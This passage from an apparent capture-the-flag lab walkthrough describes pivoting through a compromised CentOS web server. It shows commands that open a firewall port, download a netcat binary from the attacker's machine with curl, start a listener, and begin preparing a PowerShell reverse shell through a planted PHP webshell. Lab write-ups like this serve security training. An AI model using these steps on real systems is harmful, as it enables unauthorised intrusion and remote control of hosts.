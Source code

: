 Start a TCPDump listener on your VM:

```
tcpdump -i tun0-IP icmp
```

Attempt to ping yourself with 3 ICMP packets from the webshell:

```
ping -n 3 tun0-IP
```

**4) How many make it to the waiting listener?**

Unfortunately, none ping back so we will have to think of another way to reverse the connection.

Now we have two options again. We could upload a static netcat copy or set up a relay on .200 using socat.

I will be using [socat](https://www.redhat.com/sysadmin/getting-started-socat) (see Task #13) for experience because I have never used it to forward a shell back to a listener before.

However, there is something we must do first because CentOS uses an always-on wrapper called firewalld. This firewall only allows access to anything specified by the system admin.

Due to this, we will need to open our desired port (I will use 37834) in the firewall.

* Set zone to public
* Establish a port (above 15000 because that is what new room users will be scanning)
* Set the protocol to TCP

```
firewall-cmd --zone=public --add-port 30603/tcp
success
```

Now that we have opened the port in the firewall, we can transfer a netcat binary onto the compromised web server.

Start a http server on your VM (make sure the directory you start you server in contains the binary).

```
python3 -m http.server 80
```

Next, we cURL the binary from our ssh session and make it an executable.

```
curl tun0-IP/nc -o ./nc-USERNAME & chmod +x ./nc-USERNAME
```

Now we can open a listener on the port that we opened in the firewall.

```
./nc-USERNAME -lvnp 30603
```

Time to go for a reverse shell on the device, let's go into BurpSuite and grab a repeater for 10.200.72.150/web/exploit-USERNAME.php.

* Modify like we did previously and add a powershell to create a reverse shell.
* Adjust the IP and Port (10.200.72.200,30603)
* Use CTRL-U to URL-encode the shell command.
